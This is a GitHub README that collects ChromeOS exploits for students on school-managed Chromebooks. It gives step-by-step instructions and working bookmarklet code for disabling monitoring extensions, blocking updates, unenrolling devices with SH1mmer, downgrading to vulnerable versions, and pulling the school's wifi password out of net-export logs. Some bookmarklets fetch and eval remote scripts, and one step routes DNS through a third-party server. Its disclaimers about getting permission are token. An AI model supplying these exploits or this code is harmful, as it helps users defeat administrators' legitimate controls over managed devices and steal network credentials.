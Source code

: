 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b> (Unenroll and more)</summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  
This exploit can be used to completely unenroll enterprise-managed Chromebooks.  
  
**PLEASE FOLLOW EVERY DIRECTION!** If you do not, you could brick your chromebook.
  
More info: <a href="https://sh1mmer.me/">https://sh1mmer.me/</a>  
- FAQ: <a href="https://sh1mmer.me/faq.html">https://sh1mmer.me/faq.html</a>
- Credits: <a href="https://sh1mmer.me/credits.html">https://sh1mmer.me/faq.html</a>
  
This exploit works quite like downgrading, but requires a few more steps.  
<i>Requirements</i>  
- A USB with atleast 16gbs
- A personal computer

<i>Setup</i>

1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Make sure your board is in this list: `brask, brya, clapper, coral, dedede, enguarde, glimmer, grunt, hana, hatch, jacuzzi, kukui, nami, octopus, orco, pyro, reks, sentry, stout, strongbad, tidus, ultima, volteer, zork` If it is not, then this exploit will not work.
3. On your personal computer, download the corresponding shim from the [SH1MMER file mirror](https://dl.sh1mmer.me/Beautiful%20World%20GUI%20Shims/) pick crew if you are not advanced
4. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  
5. Open the extention, and click on the settings button in to top right hand corner, click "use local image"

![image](https://user-images.githubusercontent.com/58097612/212979292-61787616-f640-47f8-8aee-2b37baf66b58.png)

6. Select the .bin file you downloaded
7. Click the blue button
8. Wait

<i>Instlation</i>

1. Enter recovery mode on your Managed Chromebook. This is done by pressing the power button, reload key (↻), and esc key at the same time. Your screens should look like the image below:

![image](https://user-images.githubusercontent.com/58097612/212979580-afb09ba1-e851-49a1-9b72-71092c46af43.png)
![image](https://user-images.githubusercontent.com/58097612/212979638-8af8d0ed-d080-4d7d-938a-a6723cff4d5e.png)

2. Press ctrl+d, then enter
3. It will now say something about "returning to secure mode" or that "OS verification is off", this means ou are ready to boot Sh1mmer. It will look the like the images below:

![image](https://user-images.githubusercontent.com/58097612/212979781-926be545-fb6e-4441-bebe-ff89e7d4a1f1.png)
![image](https://user-images.githubusercontent.com/58097612/212979798-65f45aa3-616a-4ccf-8636-2b94cce86686.png)

4. Press the power button, reload key (↻), and esc key at the same time again.
5. Plug your shimmed USB into your Chromebook, and press the power button, reload key (↻), and esc key again.

![image](https://user-images.githubusercontent.com/58097612/212979889-019e53e9-1f39-4536-900d-d95585c65bd6.png)

6. Navigate to "Payloads", then click on "Unenroll"
7. Nagigate back to the pain page, and click "Reboot"

Enjoy your new, unenrolled chromebook!

Please use this only when you have permisson, I (3kh0) and Mercury Workshop do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Everything should be unblocked
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
<details>
<summary><b>Wifi Password</b> (Get school wifi passwords)</summary>
You can get your school's wifi password if it is built into the enrolement!

![image](https://user-images.githubusercontent.com/58097612/212685463-cfd45697-a90f-42dd-8295-2bcdb5edcd4f.png)

*This tool should not be used for illegal activity. By using this tool, you acknowledge that you are legally allowed to extract the password(s) in question.*

1. Visit chrome://net-export
2. In "OPTIONS" set "Include raw bytes"
3. Click "Start Logging to Disk"
4. Visit chrome://policy
5. Click "Reload policies"
6. Go back to chrome://net-export and click "Stop logging"
7. Upload file [here!](https://luphoria.com/netlog-policy-password-tool)
8. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
